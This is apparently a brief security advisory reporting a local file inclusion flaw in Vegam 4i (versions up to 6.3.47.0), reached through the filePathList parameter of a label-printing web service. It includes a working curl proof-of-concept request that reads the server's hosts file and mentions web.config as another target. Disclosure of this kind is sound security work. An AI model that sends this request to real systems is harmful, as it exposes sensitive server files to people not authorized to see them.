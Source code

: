 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability via the filePathList parameter, allowing an malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.
cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip
```

